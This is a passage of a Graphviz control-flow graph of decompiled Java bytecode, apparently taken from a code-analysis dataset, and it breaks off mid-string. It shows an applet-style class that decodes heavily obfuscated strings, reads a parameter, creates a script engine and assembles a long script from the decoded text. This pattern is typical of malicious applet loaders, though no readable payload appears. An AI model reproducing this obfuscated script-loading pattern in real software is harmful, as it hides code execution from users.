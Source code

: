 digraph "" {
    "r0 := @this: a"
    "load.r r0"
    "r0 := @this: a"->"load.r r0";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e92\ufb0e\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\""
    "load.r r0"->"push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e92\ufb0e\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\"";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e92\ufb0e\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"staticinvoke <d: java.lang.String dc(java.lang.String)>";
    "store.r r52"
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"->"store.r r52";
    "store.r r52"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5335\uefdc\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5335\uefdc\"";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5335\uefdc\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r2"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3bf\u6e93\ufb0f\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0365\ue26f\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec1\ua51e\u343d\ue817\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1298\ue6b3\u3cba\u8751\u4345\u8dce\u67d3\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\""
    "load.r r2"->"push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3bf\u6e93\ufb0f\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0365\ue26f\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec1\ua51e\u343d\ue817\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1298\ue6b3\u3cba\u8751\u4345\u8dce\u67d3\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\"";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3bf\u6e93\ufb0f\u01c0\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2461\u1225\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0365\ue26f\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec1\ua51e\u343d\ue817\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1298\ue6b3\u3cba\u8751\u4345\u8dce\u67d3\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5915\ud3bf\u6e92\ufb0f\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff9\u2dfa\u0365\ue26f\u21c9\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b9\ueec0\ua51f\u343c\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b7\uef02\ua785\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2698\u7e85\u0976\u45e6\uf733\uee9c\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe9\u021d\ue1c9\ufa5f\u43ab\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua472\ue20d\uccf0\uf421\ua14c\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue987\u8fa3\ucb53\u521f\uc400\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa72\u24e0\u3f21\ue5da\uc87f\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298b\uf6c5\u222f\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b1\ub359\u69d9\u403b\ufa7d\u8c99\uf67e\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf9\u08d2\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua727\u2ded\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd35\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4840\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d43\uf4a5\u3d18\u3097\u9f6c\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0d\u4bd5\ude07\ub09a\u0425\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud499\u6daa\u2fbd\ua3c8\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud877\u1857\u6041\u251f\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b35\u81b8\uff32\u6cf8\ua5b5\u8ddc\u899d\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4509\ue3b7\u9930\u8b81\u4645\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c62\ud9bb\udbd2\ub994\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5915\ud3bf\u6e92\ufb0f\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff9\u2dfa\u0365\ue26f\u21c9\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b9\ueec0\ua51f\u343c\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b7\uef02\ua785\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2698\u7e85\u0976\u45e6\uf733\uee9c\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe9\u021d\ue1c9\ufa5f\u43ab\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua472\ue20d\uccf0\uf421\ua14c\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue987\u8fa3\ucb53\u521f\uc400\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa72\u24e0\u3f21\ue5da\uc87f\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298b\uf6c5\u222f\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b1\ub359\u69d9\u403b\ufa7d\u8c99\uf67e\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf9\u08d2\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua727\u2ded\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd35\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4840\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d43\uf4a5\u3d18\u3097\u9f6c\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0d\u4bd5\ude07\ub09a\u0425\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud499\u6daa\u2fbd\ua3c8\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud877\u1857\u6041\u251f\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b35\u81b8\uff32\u6cf8\ua5b5\u8ddc\u899d\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4509\ue3b7\u9930\u8b81\u4645\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c62\ud9bb\udbd2\ub994\"";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5915\ud3bf\u6e92\ufb0f\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1224\u263f\u5334\uefdd\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff9\u2dfa\u0365\ue26f\u21c9\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b9\ueec0\ua51f\u343c\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8d\u4884\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b7\uef02\ua785\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2698\u7e85\u0976\u45e6\uf733\uee9c\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe9\u021d\ue1c9\ufa5f\u43ab\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua472\ue20d\uccf0\uf421\ua14c\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue987\u8fa3\ucb53\u521f\uc400\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa72\u24e0\u3f21\ue5da\uc87f\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298b\uf6c5\u222f\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b1\ub359\u69d9\u403b\ufa7d\u8c99\uf67e\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf9\u08d2\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua727\u2ded\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd35\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4840\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d43\uf4a5\u3d18\u3097\u9f6c\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0d\u4bd5\ude07\ub09a\u0425\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud499\u6daa\u2fbd\ua3c8\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud877\u1857\u6041\u251f\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b35\u81b8\uff32\u6cf8\ua5b5\u8ddc\u899d\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4509\ue3b7\u9930\u8b81\u4645\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c62\ud9bb\udbd2\ub994\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub17a\u48f8\u1789\u4049\u521b\udc5c\u1642\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub17a\u48f8\u1789\u4049\u521b\udc5c\u1642\"";
    "push \"\ub17a\u48f8\u1789\u4049\u521b\udc5c\u1642\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub12b\u48a2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub12b\u48a2\"";
    "push \"\ub12b\u48a2\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1225\u263f\u5334\uefdc\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0364\ue26e\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec0\ua51f\u343d\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8c\u4885\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b6\uef03\ua784\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2699\u7e84\u0977\u45e7\uf733\uee9d\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe8\u021d\ue1c9\ufa5e\u43aa\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua473\ue20d\uccf1\uf420\ua14d\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue986\u8fa2\ucb52\u521f\uc401\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa73\u24e0\u3f20\ue5db\uc87e\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298a\uf6c5\u222e\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b0\ub359\u69d9\u403a\ufa7d\u8c99\uf67f\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf8\u08d3\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua726\u2dec\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd34\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4841\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d42\uf4a5\u3d18\u3097\u9f6d\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0c\u4bd4\ude06\ub09a\u0424\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud498\u6dab\u2fbc\ua3c9\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud876\u1857\u6040\u251e\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b34\u81b8\uff32\u6cf9\ua5b5\u8ddd\u899c\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4508\ue3b7\u9931\u8b80\u4644\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c63\ud9bb\udbd2\ub995\u1549\u4033\u6375\u20ce\u66f3\u5456\u7673\u72df\uccbe\ud745\u960e\u24ad\uffbb\u34b3\u2954\ucb4b\ue0cd\u89b7\ufe6a\u1af5\udb12\uf7eb\u7ebf\ude2f\u339b\ub78b\uef5e\ue479\ue9fc\u1744\uf8e5\u9402\u68c5\u213a\u4573\ubb33\ud857\u15b0\ufeb0\ud00f\u52e2\ufc95\u31a4\uca42\u7385\u504f\u8244\u5358\u7f9d\u6ae3\uc3aa\ue70c\uce57\u2120\u9938\u90dc\ub270\ue86d\u4ff9\u9e0a\udce7\uc346\ud428\u4904\ub203\u91b6\u977f\uc2dc\u2e5c\uf290\uccc3\u2f3a\u6e56\u5bd5\u02b2\u277a\u4dbd\u421a\ud033\u52a2\u6106\u7810\uf3ea\uf921\u8a03\uc5e2\u9626\ua58c\u6906\uc64f\u261f\ufad3\u09ab\uecd2\u54b7\u1d2a\ua717\ubfa7\u5c10\u3756\ue920\u5322\u056f\u328d\u1ba4\ua147\uedc8\udcb3\ubeec\u4548\u88c9\ue50d\uf0c1\uc4bc\uf28b\ud643\uac8d\u6dae\uf95f\u19f2\u2494\u41c7\ue480\u0b00\u477c\ubdb6\u1b0a\ue7ce\u478f\u836e\u4a63\u1ba8\ufd24\u759a\ucaa6\ub211\uee63\uba2b\ud756\ua5ee\u8409\u2ff5\u9e72\u9d4d\u99b6\uf215\u4b30\u5e2c\ua871\ue7f8\udeda\u7f54\u7af3\u1ed2\u65c0\ua627\u59ac\u1c40\u69cc\ueec2\u9a77\ufb4a\u0e88\uf252\u501b\u27ad\u2567\u0927\u2db2\u3679\u80f4\u1ebb\u98ba\u445b\u0ebb\ued1b\u9893\u4979\u94d5\uc2e4\uaa87\uf89c\u797f\u7edd\u3700\ua8c6\u1d6d\ubf1c\u5b13\uca16\uaa90\u5d0b\u8d81\u8378\uafb8\ufc3b\u0f7f\u741c\u9577\u6b7c\u7aae\uf913\ub811\u1129\u0eb9\u6685\uc228\u1fa3\u8c57\u11a6\u7dc7\u6604\ua13e\u7267\u4dbd\u1b49\u392f\u3938\u9f0a\u11fe\u20d4\u3d9b\u3b7c\uf6ac\ue680\u00e6\ub734\u1ad4\u409b\ud2ea\u0ba2\u03cc\uf105\u7426\u6aea\ud638\u6ccc\ua54e\u5c92\u27a7\u9729\u81fb\u704d\u25d3\u4335\u91c8\u50f3\u90f0\uc107\u3643\u3ad3\uc34b\uf0e2\u2bcc\u1d76\u7045\ue36b\u3e7c\ueab9\u0b41\u718f\ub3bc\u3970\ub352\ud13a\u7199\ucc7f\ua517\u9e3d\u2aa4\u6eb7\u69aa\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1225\u263f\u5334\uefdc\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0364\ue26e\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec0\ua51f\u343d\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8c\u4885\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b6\uef03\ua784\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2699\